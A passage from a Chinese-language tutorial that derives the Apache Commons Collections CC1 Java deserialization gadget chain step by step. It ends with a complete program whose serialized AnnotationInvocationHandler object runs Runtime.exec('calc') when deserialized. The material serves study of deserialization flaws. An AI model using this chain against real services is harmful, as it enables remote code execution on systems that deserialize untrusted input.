      		然后我们就需要去调用那个静态内部类的setValue方法，而且我们现在的decorate属性的对象已经是TransformedMap中的了
      		而且TransformedMap又是那个很长的抽象方法的子类，
      		而且原本的map类中也是有setValue方法，这里就可以理解为那个静态类重写了setValue方法
      		我们使用TransformedMap.decorate方法返回的map对象然后对其遍历是会执行那个静态类中的setValue方法的
      	*/
          for (Map.Entry entry:decorate.entrySet()){
              // 然后这里就要传入Runtime对象，因为执行exec方法需要一个这个方法所属对象
              entry.setValue(runtime);
          }
          
          // 运行完成后，在可以发现是可以谈计算器的
      }
      ```

18.   **到这里，我们就已经完成调用链的一半了，然后我们需要去找的东西就是：要有一个遍历数组的地方，而且他还要调用了setValue方法**

      -   **而且他的setValue方法中的value值要是可控的，而且也要让其对我们的decorate进行遍历**

19.   **然后重新使用老办法，对这setValue去找，这次找已经有一个范围了，然后从这里开始也可以找一下有没有在readObject里面调用setValue方法的，如果没有那说明可能还需要来一层调用**

20.   **然后只在一处`sun.reflect.annotation.AnnotationInvocationHandler`**类中发现有`readObject`方法调用了

      ```java
      // 这个方法还是一个default方法，那么我们要调用readObject方法，只能在它所在包才能访问，即：sun.reflect.annotation包下才访问
      // 所以我们得使用反射这个创建这个对象，如：Class.forName("sun.reflect.annotation.AnnotationInvocationHandler")
      class AnnotationInvocationHandler implements InvocationHandler, Serializable {
          // 看完这个方法，其他可以发现这个方法利用空间还是有的，那么就可以进行尝试，然后去看一下构造方法
          private void readObject(java.io.ObjectInputStream s) throws java.io.IOException, ClassNotFoundException {
              s.defaultReadObject();
      
              // Check to make sure that types have not evolved incompatibly
      
              AnnotationType annotationType = null;
              try {
                  annotationType = AnnotationType.getInstance(type);
              } catch(IllegalArgumentException e) {
                  // Class is no longer an annotation type; time to punch out
                  throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
              }
      
              Map<String, Class<?>> memberTypes = annotationType.memberTypes();
      
              /**
              	主要是这里，它有一个变量map的功能，然后调用了setValue()
              */
              for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
                  String name = memberValue.getKey();
                  Class<?> memberType = memberTypes.get(name);
                  if (memberType != null) {  // i.e. member still exists
                      Object value = memberValue.getValue();
                      if (!(memberType.isInstance(value) ||
                            value instanceof ExceptionProxy)) {
                          memberValue.setValue(
                              new AnnotationTypeMismatchExceptionProxy(
                                  value.getClass() + "[" + value + "]").setMember(
                                  annotationType.members().get(name)));
                      }
                  }
              }
          }
          
          /**
          	看到这个构造方法，
          	第一个参数：可以理解为需要一个注解的class，这个可以随便找一个
          	第二个参数：需要一个map，这个map可以是我们写好transformedMap
          	等于这我们完全是可以控制的,另外这个构造器也不是公有的
          */
          AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
              // 这里根据class去获取了接口
              Class<?>[] superInterfaces = type.getInterfaces();
              // 不是注解就会抛异常
              if (!type.isAnnotation() ||
                  superInterfaces.length != 1 ||
                  superInterfaces[0] != java.lang.annotation.Annotation.class)
                  throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
              this.type = type;
              this.memberValues = memberValues;
          }
      }
      ```

21.   **编写调用链**

      ```java
      // 原本调用
      public static void main(String[] args) throws Exception {
          Runtime runtime = Runtime.getRuntime();
          InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
          HashMap<Object, Object> hashMap = new HashMap<>();
          hashMap.put("key","value");
          Map<Object,Object> decorate = TransformedMap.decorate(hashMap,null,exec);
          for (Map.Entry entry:decorate.entrySet()){
              entry.setValue(runtime);
          }
      }
      
      // 新增后调用
      public static void main(String[] args) throws Exception {
          Runtime runtime = Runtime.getRuntime();
          InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
          HashMap<Object, Object> hashMap = new HashMap<>();
          hashMap.put("key","value");
          Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, exec);
          
      	// 通过反射拿到AnnotationInvocationHandler类的class
          Class<?> hander = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
          // 然后在拿到AnnotationInvocationHandler类的构造方法
          Constructor<?> handerConstructor = hander.getDeclaredConstructor(Class.class, Map.class);
          // 因为构造方法不是公有的，设置一下可访问
          handerConstructor.setAccessible(true);
          // 创建对象并传入一个注解的class，这里以Target为例
          Object o = handerConstructor.newInstance(Target.class, decorate);
      
          // 进行序列化
          serialize(o);
          unserialize();
      }
      ```

22.   **到这里，其他咋们还有两个问题没有解决，一个是执行`exec`方法需要一个`Runtime`对象，所以我们的`Runtime`对象应该是要作为setValue的参数传进去，才能最终执行方法，另一个问题就是上面的`Runtime`对象，它是我们方便测试命令自己写的，这个`Runtime`对象它是没有实现`Serializable`接口的**

      ```java
      for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
                  String name = memberValue.getKey();
                  Class<?> memberType = memberTypes.get(name);
                  if (memberType != null) {  // i.e. member still exists
                      Object value = memberValue.getValue();
                      if (!(memberType.isInstance(value) ||
                            value instanceof ExceptionProxy)) {
                          // 但是这里setValue的值是new AnnotationTypeMismatchExceptionProxy(),看样子控制不了
                          memberValue.setValue(
                              new AnnotationTypeMismatchExceptionProxy(
                                  value.getClass() + "[" + value + "]").setMember(
                                      annotationType.members().get(name)));
                      }
                  }
              }
      ```

23.   ==**然后先解决Runtime不能序列化的问题**==

      ```java
      public static void main(String[] args) throws Exception {
          // 虽然Runtime不能序列化，但是它的class可以序列化
          Class<Runtime> runtimeClass = Runtime.class;
          // 序列化的问题解决了，然后就是要拿到一个它的实例，通过getRuntime方法拿到它的实例
          Method runtime = runtimeClass.getDeclaredMethod("getRuntime");
          Runtime run = (Runtime) runtime.invoke(null);
          Method exec = runtimeClass.getDeclaredMethod("exec", String.class);
          // 这样Runtime不能序列化的问题就解决了
          exec.invoke(run,"calc");
      }
      ```

24.   ==**然后在把`InvokerTransformer`用上**==

      ```java
      public static void main(String[] args) throws Exception { 
          
          // new Class[]{}中写的是getDeclaredMethod方法的参数类型的class,然后后面new的object是参数的值，没有参数就是为空或者null
          // 为什么这么写呢？因为InvokerTransformer类中的transform方法就是一个反射调用，忘记了可以翻一下
          Method runtime = (Method) new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
          // 这里就拿到了Runtime的实例
          Runtime run = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}).transform(runtime);
          // 然后在根据实例去调用exec方法
          new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(run);
      }
      ```

25.   **因为这个三行代码都是后一个依赖前一个而且都是调用的transform方法，这个时候就有一个类可以减少工作量：就是我们在第五步中的`ChainedTransformer`**类中的`transform`方法，它可以帮助我们缩减代码量

      ```java
      public class ChainedTransformer implements Transformer, Serializable {
          // 这个方法实现了遍历一个数组然后分别调用其中的transform方法
          public Object transform(Object object) {
              for (int i = 0; i < iTransformers.length; i++) {
                  object = iTransformers[i].transform(object);
              }
              return object;
          }
          
          // 然后在看看这个ChainedTransformer类的构造方法
          // 可以看到这个iTransformers的值的内容咋们new的时候传入进来，是可以控制的
          public ChainedTransformer(Transformer[] transformers) {
              super();
              iTransformers = transformers;
          }
      }
      ```

26.   **==那么代码进行进一步改进==**

      ```java
      public static void main(String[] args) {
      	
          // 通过构造方法将我们需要执行命令放入Transformer[]数组中，它会把值赋值给iTransformers，然后调用它的transform方法
          //  for (int i = 0; i < iTransformers.length; i++) {
          //        object = iTransformers[i].transform(object);
          //  这里就挨个调用数组中的transform方法，这里就会等会调用的是InvokerTransformer的transform方法
          ChainedTransformer transformer = new ChainedTransformer(new Transformer[]{
              new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
              new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
              new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
          });
      	// 然后这里就传入一个Runtime，因为需要一个执行方法所属对象
          transformer.transform(Runtime.class);
      }
      ```

27.   **==在把map加上==**

      ```java
      public static void main(String[] args) throws Exception {
      
          ChainedTransformer transformer = new ChainedTransformer(new Transformer[]{
              new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
              new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
              new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
          });
      
          HashMap<Object, Object> hashMap = new HashMap<>();
          hashMap.put("key","value");
          // 调用静态方法将咋们构造好的链子放进去
          Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, transformer);
      }
      ```

28.   **==在把readObject用上==**

      ```java
      public static void main(String[] args) throws Exception {
      
          ChainedTransformer transformer = new ChainedTransformer(new Transformer[]{
              new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
              new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
              new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
          });
      
          HashMap<Object, Object> hashMap = new HashMap<>();
          hashMap.put("value","aaa");
          Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, transformer);
      
          // 以下就是通过反射获取类然后获取它的构造方法，然后在进行实例化
          Class<?> hander = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
          Constructor<?> handerConstructor = hander.getDeclaredConstructor(Class.class, Map.class);
          handerConstructor.setAccessible(true);
          // 然后拿到这个对象后面进行反序列化
          Object o = handerConstructor.newInstance(Target.class, decorate);
      
          // 进行序列化和反序列化
          serialize(o);
          unserialize();
      }
      
      /**
           * 反序列化
           * @return: java.lang.Object
           **/
      public static Object unserialize() throws Exception {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream("test.bin"));
          return ois.readObject();
      }
      
      /**
           * 序列化
           * @return: void
           **/
      public static void serialize(Object o) throws Exception{
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("test.bin"));
          oos.writeObject(o);
      }
      ```

29.   **运行后并没有弹计算器，这个时候就可能就人力难以发现问题所在，所以这个时候的思路就是进行调试，在`AnnotationInvotationHandle`类中的`readObject`方法中写一个断点**

      ```java
      for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
          // 这会获取到value，后面会把这个name做为key去获取相对于的值
          String name = memberValue.getKey();
          Class<?> memberType = memberTypes.get(name);
          // 所有我们要让map的key等于value，要不然这个if都进不去
          if (memberType != null) {  
              // 然后这里拿到key所对应的值
              Object value = memberValue.getValue();
              // 这里判断能不能强转，我们是string，那肯定是不能的，所以肯定可以往下走
              if (!(memberType.isInstance(value) || value instanceof ExceptionProxy)) {
                  // 就是这里跟进去看看
                  memberValue.setValue(
                      new AnnotationTypeMismatchExceptionProxy(
                          value.getClass() + "[" + value + "]").setMember(
                          annotationType.members().get(name)));
              }
          }
      }
      
      // 跟进去首先走MapEntry类的setValue()
      public Object setValue(Object value) {
          // 这里在跟进去
          value = parent.checkSetValue(value);
          return entry.setValue(value);
      }
      // 来到TransformedMap的checkSetValue
      protected Object checkSetValue(Object value) {		// idea右边可以发现value的值为：AnnotationTypeMismatchExceptionProxy@668
      	// 但是呢我们想要执行命令这个value值应该是Runtime.class，
          // 所有问题他就是出现在这里
          
          return valueTransformer.transform(value);
          // valueTransformer.transform(value) 其实是等价于 ChainedTransformer.transform(Runtime.class);
      }
      ```

30.   **这个时候就是要想办法把这个Runtime.class弄过去，直接搞肯定是不行，这个时候又要找找有没有能利用的类，这个时候我们开头能看到的ConstantTransformer类就可以用到了**

      ```java
      public class ConstantTransformer implements Transformer, Serializable {
          // 可以通过构造方法把Runtime放进去
      	public ConstantTransformer(Object constantToReturn) {
              super();
              iConstant = constantToReturn;
          }
          
          // 然后这个transform方法是不管input传入什么
          // 它始终就会返回Runtime，刚好可以解决Runtime的参数问题
          public Object transform(Object input) {
              return iConstant;
          }
      }
      ```

31.   ==那么最终的调用链如下==

      ```java
      public static void main(String[] args) throws Exception {
      
          ChainedTransformer transformer = new ChainedTransformer(new Transformer[]{
              // 提前将Runtime放进去
              new ConstantTransformer(Runtime.class),
              new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
              new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
              new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
          });
          
          HashMap<Object, Object> hashMap = new HashMap<>();
          hashMap.put("value","aaa");
          Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, transformer);
      
          Class<?> hander = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
          Constructor<?> handerConstructor = hander.getDeclaredConstructor(Class.class, Map.class);
          handerConstructor.setAccessible(true);
          Object o = handerConstructor.newInstance(Target.class, decorate);
      
          serialize(o);
          unserialize();
      }
      public static Object unserialize() throws Exception {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream("test.bin"));
          return ois.readObject();
      }
      
      public static void serialize(Object o) throws Exception{
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("test.bin"));
          oos.writeObject(o);
      }
      ```

32.   **总结**：

      ```nginx
      - 首先进行反序列化肯定从：
      	# 反序列的开始
       	-AnnotationInvocationHandler.readObject()
      	# map是被放在了TransformedMap类中，memberValue的值指向TransformedMap对象
      	-memberValue.setValue()
      	# 所以会调用重写的setValue()方法
      	-MapEntry.setValue()
      	# checkSetValue()这个方法是在子类实现的
      	-checkSetValue(value);
      	# 通过调用transformedMap的静态decorate()方法赋值，valueTransformer的值为：ChainedTransformer对象
      	-valueTransformer.transform(value);
      	# 循环调用ChainedTransformer的transform方法
      	-ChainedTransformer.transform()
      	# 拿到Runtime.class
      	-ConstantTransformer.transform()
      	-完成调用
      	
      
      ```

      


